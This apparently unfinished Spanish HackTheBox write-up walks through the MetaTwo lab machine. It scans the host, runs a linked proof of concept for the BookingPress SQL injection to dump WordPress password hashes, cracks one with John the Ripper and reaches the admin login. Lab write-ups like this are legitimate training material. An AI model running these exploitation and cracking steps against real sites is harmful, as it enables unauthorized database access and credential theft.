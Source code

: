 ```yaml
---
title: MetaTwo WriteUp
author: H4ckerLite 
date: 2023-03-21 00:00:00 +0800
categories: [hackthebox, machine, writeup]
tags: [linux, hackthebox, writeup, easy, wordpress, sql injection, virtual hosting]
image:
  path: ../../assets/img/commons/metatwo-writeup/MetaTwo.png 
  alt: MetaTWo WriteUp
pin: true
---
```


Hoy toca compremeter la máquina [MetaTwo](https://app.hackthebox.com/machines/metatwo) de HackTheBox. Nos enfretaremos con una página que cuenta con una vulneravilidad de de un plugin de  `Word Press`, usando dicha vulnerabilidad podemos dumpear la base de datos y obtener el Usuario y la contraseña del usuario de **Word Press**,


## Enumeración

### Identificando el OS
Enviando trazas **ICMP**  `(Internet Control Message Protocol)` y usando el **TTL**`(Time to Live)` podemos identificar el OS.

```bash
❯ ping -c1 10.10.11.186
PING 10.10.11.186 (10.10.11.186) 56(84) bytes of data.
64 bytes from 10.10.11.186: icmp_seq=1 ttl=63 time=156 ms

--- 10.10.11.186 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 156.106/156.106/156.106/0.000 ms
```

### NMAP

Si realizamos un escaneo de puertos, encontramos:

```bash
❯ nmap 10.10.11.186
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-24 12:53 -04
Nmap scan report for 10.10.11.186
Host is up (0.21s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 16.43 seconds
```
### Analizando la Web

Si intentamos acceder a la web, nos redirige, para solucionar esto hacemos:
```bash
echo '10.10.11.186   metapress.htb' | tee -a /etc/hosts
```
Cone esto arreglamos el problema de virtual hosting.

![Web ]({{ 'assets/img/commons/metatwo-writeup/1.png' | relative_url }}){: .center-image }
_Web_

si ingresamos a la direcciñon que nos [muestra](http://metapress.htb/events) vemos esto:

![Events ]({{ 'assets/img/commons/metatwo-writeup/2.png' | relative_url }}){: .center-image }
_Events_

Si miramos el código fuente vemos que usa el plugin `booking-press v1.0.10` si buscamos un exploit para esa versión, encontramos [este](https://github.com/destr4ct/CVE-2022-0739) y este [otro](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357).


Creamos un evnto y en todos los campos de texto colocamos `bookingpress_form`.

![Events ]({{ 'assets/img/commons/metatwo-writeup/4.png' | relative_url }}){: .center-image }
_BookingPress_

Ahora vemos el código fuente y buscamos por `once` y copiamos ese pin. Con el exploit que les compartí podemos dumpear la base de datos.

```bash
❯ python3 exploit.py -u http://metapress.htb -n 30594111b0
- BookingPress PoC
-- Got db fingerprint:  10.5.15-MariaDB-0+deb11u1
-- Count of users:  2
|admin|admin@metapress.htb|$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.|
|manager|manager@metapress.htb|$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70|

```
Ahora copiamos el hash y lo intentamos crakear con john.

```bash
❯ john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
partylikearockstar (manager)
1g 0:00:00:03 DONE (2023-03-24 14:36) 0.2617g/s 28950p/s 28950c/s 28950C/s poochini..music69
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed
```
Podemos autenticarnos con Word Press.


## Comprometiendo la máquina

Accedemos al panel de [WordPress](http://metapress.htb/wp-admin).

![Events ]({{ 'assets/img/commons/metatwo-writeup/5.png' | relative_url }}){: .center-image }
_WP Login_




Más tarde continuo.........
